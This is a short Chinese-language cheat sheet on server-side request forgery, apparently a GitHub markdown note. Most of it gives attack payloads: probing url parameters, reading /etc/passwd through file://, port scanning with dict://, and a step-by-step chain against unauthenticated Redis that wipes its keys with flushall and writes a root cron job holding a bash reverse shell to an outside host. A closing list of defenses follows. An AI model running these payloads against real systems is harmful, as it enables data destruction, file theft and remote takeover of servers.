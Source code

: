 ## 简单判断是否存在漏洞
参数中有url的地方，修改为`https://www.baidu.com/robots.txt`和`127.0.0.1`看下反应能否读取到网页内容
## file协议获取本地信息
`file:///etc/passwd`读取web配置文件，密码本，host信息等。
## dict协议端口和目录扫描
`dict://127.0.0.1:8000`修改不同的内网地址和ip进行探测
## 伪协议拓展
`file:/// dict:// sftp:// ldap:// tftp:// gopher://`
## Redis未授权利用
- 清空 key  
`dict://172.72.23.27:6379/flushall`
- 设置要操作的路径为定时任务目录  
`dict://172.72.23.27:6379/config set dir /var/spool/cron/`
- 在定时任务目录下创建 root 的定时任务文件  
`dict://172.72.23.27:6379/config set dbfilename root`
- 写入 Bash 反弹 shell 的 payload  
`dict://172.72.23.27:6379/set x "\n* * * * * /bin/bash -i >%26 /dev/tcp/x.x.x.x/2333 0>%261\n"`
- 保存上述操作。
`dict://172.72.23.27:6379/save`
## 防御方法
1. 禁止跳转
2. 过滤返回信息，验证远程服务器对请求的响应是比较容易的方法。如果web应用是去获取某一种类型的文件。那么在把返回结果展示给用户之前先验证返回的信息是否符合标准。
3. 禁用不需要的协议，仅仅允许http和https请求。可以防止类似于file://, gopher://, ftp:// 等引起的问题
4. 设置URL白名单或者限制内网IP（使用gethostbyname()判断是否为内网IP）
5. 限制请求的端口为http常用的端口，比如 80、443、8080、8090
6. 统一错误信息，避免用户可以根据错误信息来判断远端服务器的端口状态。